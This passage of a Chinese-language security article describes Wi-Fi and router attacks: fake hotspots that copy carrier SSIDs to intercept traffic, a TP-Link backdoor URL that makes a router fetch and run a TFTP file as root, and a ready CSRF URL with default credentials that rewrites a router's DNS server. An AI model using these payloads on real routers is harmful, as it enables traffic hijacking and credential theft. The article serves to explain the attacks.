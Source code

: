 * * *

建立虚假wifi热点,等候别人的连接，安装tcpdump等工具进行抓包窃取数据。

主动式攻击
-----

* * *

利用智能手机 Wi-Fi 广播 协议的缺陷 / 自动接入设计进行攻击。

手机连接过WIFI热点信息之后会保存在手机里，每次进入无线覆盖范围就会自动接入。

公开WIFI热点

```
 中国移动热点：CMCC、CMCC-EDU 等

 中国联通热点：ChinaUnicom 等

 中国电信热点：ChinaNet、ChinaTelecom 等

```

无线设备为了加快连接速度，会对外广播过它连接过什么无线，ssid是多少。如果我截获到了这个广播，我自然能知道你连过什么无线，把这个无线伪造出来

建立相同SSID 切没有密码的ap热点，手机会主动连接手机里已连接过的AP热点，连接的时候只验证SSID是否相同，当不存在密码的时候，不用去验证，会主动连接。(应该是安卓4.2以下版本可以)。

国产手机自带的Wlan服务(删都删不掉)

将运营商的 Wi-Fi 热点内置到你的手机中，更有甚者一些手机中这几个 Wi-Fi 你都删不掉，碰到了就连上，这样的情况下 我们随意建立一个类似于CMCC 等热点就可以进行信息窃取。

0x03 设备攻防
=====

TP-link后门

TP-LINK的某些型号的路由器存在一个后门功能，通过访问某个无需授权认证的特定页面，路由器会自动从攻击者控制的TFTP服务器上下载程序并执行。攻击者利用这个漏洞可以在路由器上以root身份执行任意命令，从而可完全控制路由器。

http://192.168.0.1/userRpmNatDebugRpm26525557/start_art.html ” ，路由器会从发起请求的机器通过tftp下载一个nart.out文件，并以root权限执行该文件。

CSRF攻击

```
 IE不支持Http Authentication  使用此方法在IE下攻击是无效的 完美兼容FF chrome。

http://admin:admin@192.168.1.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&ip1=      192.168.1.100&ip2=192.168.1.199&Lease=120&gateway=0.0.0.0&domain=&dnsserver=&dnsserver=54.248.102.5&dnsserver2=8.8.8.8&Save=%25B1%25A3+%25B4%25E6

```

烽火通信某款路由器被爆存在漏洞-可远程修改DNS

> http://www.exploit-db.com/exploits/28450/

![enter image description here](http://drops.javaweb.org/uploads/images/5a470733d8b9919ca740bc44818ccdef6497fc7d.jpg)

0x04 路由器攻破可以干什么？
=====

网络出口流量控制在你手里，手机端利用更新 系统漏洞挂马？ PC端利用IE等漏洞来挂马？ 窃取登录密码等等。

控制路由器就等于控制80%以上的通讯数据包，利用方式和局域网嗅探、劫持大同小异。